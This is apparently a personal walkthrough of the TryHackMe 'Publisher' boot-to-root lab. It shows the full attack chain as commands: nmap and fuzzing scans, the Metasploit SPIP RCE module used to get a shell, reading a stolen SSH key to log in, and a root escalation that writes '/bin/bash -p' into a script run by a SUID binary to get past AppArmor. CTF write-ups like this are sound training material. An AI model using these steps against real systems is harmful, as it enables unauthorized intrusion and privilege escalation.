








https://tryhackme.com/room/publisher
description:
Test your enumeration skills on this boot-to-root machine.
The "**Publisher**" CTF machine is a simulated environment hosting some services. Through a series of enumeration techniques, including directory fuzzing and version identification, a vulnerability is discovered, allowing for Remote Code Execution (RCE). Attempts to escalate privileges using a custom binary are hindered by restricted access to critical system files and directories, necessitating a deeper exploration into the system's security profile to ultimately exploit a loophole that enables the execution of an unconfined bash shell and achieve privilege escalation.

1. main website: 

2. nmap:
```bash
└─$ nmap -p- -sS -sC -sV -A -T4 10.82.163.190

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 80:79:dd:e3:7b:d9:b6:da:89:d0:db:67:60:df:da:d8 (RSA)
|   256 31:67:80:d2:f9:d2:d5:8d:83:1f:40:20:dc:c9:b7:51 (ECDSA)
|_  256 3a:dd:a7:30:0b:fc:ff:72:e8:b6:bd:3e:d0:20:ff:6d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Publisher's Pulse: SPIP Insights & Tips
|_http-server-header: Apache/2.4.41 (Ubuntu)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

3. searching for directories:
   ```bash
   feroxbuster -u 'http://10.82.163.190:80/' -w /usr/share/seclists/Discovery/Web-Content/big.txt -o result.json --json
   
   interesting findings:
   301 http://10.82.163.190/spip/config => http://10.82.163.190/spip/config/
   200 http://10.82.163.190/spip/config/connect.php
   200 http://10.82.163.190/spip/config/remove.txt
   200 http://10.82.163.190/spip/config/ecran_securite.php
   200 http://10.82.163.190/spip/config/chmod.php
   200 http://10.82.163.190/spip/config/cles.php
   200 http://10.82.163.190/spip/config/ecran_securite.php
   200 http://10.82.163.190/spip/config/bases/spip.sqlite
   200 http://10.82.163.190/spip/ecrire/auth/sha256.inc.php
   200 http://10.82.163.190/spip/ecrire/auth/ldap.php
   200 http://10.82.163.190/spip/ecrire/auth/spip.php
   200 http://10.82.163.190/spip/local/config.txt
   200 http://10.82.163.190/spip/ecrire/auth/
   200 http://10.82.163.190/spip/prive/ - directory listing   
   ```
3. subdomains
```
ffuf -w /media/sf_wordlists/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt  -H "Host: FUZZ.spip.thm" -u http://spip.thm -mc 200 -fs 8686
```
   4. trying exploit :
```
msf exploit(multi/http/spip_rce_form)

set TARGETURI /spip
set RPORT 80
set LHOST <TARGET_IP>
set LHOST <MACHINE_TUN0_IP>

```
Ok, successfully runned exploit. We have meterpreter shell. I changed to:
```
shell
/bin/bash
script -qc /bin/bash /dev/null
# now we are in:
www-data@41c976e507f8:/home/think/spip/spip$ grep -ire 
```
what we have readable id_rsa file in /home/think/.ssh/

I copied key to my kali and logged in as think user.

```
chmod 600 id_rsa           
ssh -i id_rsa think@10.82.163.190
```
as I am now logged in as think I can read user.txt flag
```
cat user.txt
```

Now I am searching for way to root.
Save is not possible in home directory, in tmp etc. 
I used command:
```
find / -perm -4000 2>/dev/null
```

after some research I decided to try with run_container:

```
strings /usr/sbin/run_container
# shows:
...
]A\A]A^A_
/bin/bash
/opt/run_container.sh
:*3$"
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
...
# we need to check if we can write to this file:
ls -l /opt/run_container.sh
-rwxrwxrwx 1 root root 1715 Jan 10  2024 /opt/run_container.sh

```
looks like we can write, but in fact we can't...
Why? Because of apparmor.

below we can see that we are using ash:

here are our rules:

rule tells us that I can write to /dev/shm
first we need to use /bin/bash instead of ash to avoid rules specified in usr.sbin.ash:
```
# I created docker file in /dev/shm folder because I can write to that directory:
vim /dev/shm/docker
# file contains command /bin/bash -p
cd /dev/shm
./docker
cp docker /opt/run_container.sh
/usr/sbin/run_container
ls /root
cat /root/root.txt

```
